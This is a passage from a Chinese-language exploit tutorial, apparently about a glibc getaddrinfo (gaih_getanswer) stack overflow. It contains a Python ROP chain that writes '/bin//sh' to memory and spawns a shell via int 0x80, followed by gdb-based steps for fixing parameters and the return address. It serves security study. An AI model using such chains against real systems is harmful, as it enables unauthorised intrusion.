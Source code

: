 ```
      data += struct.pack('<I', 0xb7e5f37f)   # mov [eax] ecx ;;
      data += struct.pack('<I', 0xb7f183e0)   # pop ecx ; pop eax ;;
      data += '//sh'              
      data += struct.pack('<I', 0x0804a01c)   # @ .data + 4
      data += struct.pack('<I', 0xb7e5f37f)   # mov [eax] ecx ;;
      data += struct.pack('<I', 0xb7e706de)   # xor eax eax ;;
      data += struct.pack('<I', 0xb7e5fadb)   # pop ecx ; pop edx ;;
      data += struct.pack('<I', 0x0804a020)   # @ .data + 8
      data += struct.pack('<I', 0x90909090)   # 
      data += struct.pack('<I', 0xb7e60514)   # mov [ecx] eax ; or eax -0x1 ;;
      data += struct.pack('<I', 0xb7e5fadb)   # pop ecx ; pop edx ;;
      data += struct.pack('<I', 0x0804a020)   # @ .data + 8
      data += struct.pack('<I', 0x0804a020)   # @ .data + 8
      data += struct.pack('<I', 0xb7e4d646)   # pop ebx ;;
      data += struct.pack('<I', 0x0804a018)   # @ .data
      data += struct.pack('<I', 0xb7e706de)   # xor eax eax ;;
      data += struct.pack('<I', 0xb7f65c56)   # add eax 0xb ;;
      data += struct.pack('<I', 0xb7fdca70)   # int 0x80 ;;
```


![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f3ag18pvkej30k80cgjtd.jpg)
即使构造好了 shellcode 依然会出断错。

# Ⅵ、调整 parameter
## ① 查看参数地址
稍安勿躁，继续使用 gdb 调试，编写实际shellcode的过程本身就很繁琐，大家要有耐心。
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f3ag51ewr1j30lk067jub.jpg)

在调用 gaih_getanswer 时，不能访问参数指向的内存区。
细心的读者，可能发现了，0x6269622f 即 /bin，说明我们的 shellcode 覆盖了 gaih_getanswer 使用的参数。

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1f3age6gv2yj30ka05qgns.jpg)

在程序出错之前，打印参数的地址

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f3ages1p9sj30kt0eq43z.jpg)

## ② 绘制整体栈布局
根据上述所有的分析，可得出栈布局
### (1) gdb 中栈布局
![](http://ww3.sinaimg.cn/large/005CA6ZCgw1f3agh9snsxj30c60g70td.jpg)
### (2)实际运行时 栈布局
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1f3b3jk046bj30c70g7q3k.jpg)

# Ⅶ、调整返回地址
因为返回地址后面有七个参数，返回地址处要调整为 add esp 0x1c;ret
这样第一条 gadget 返回之后，esp 增大 28，忽略了这七个参数，跳转到第二条gadget pop ecx;pop eax;ret 出执行，然后执行完整个 shellcode
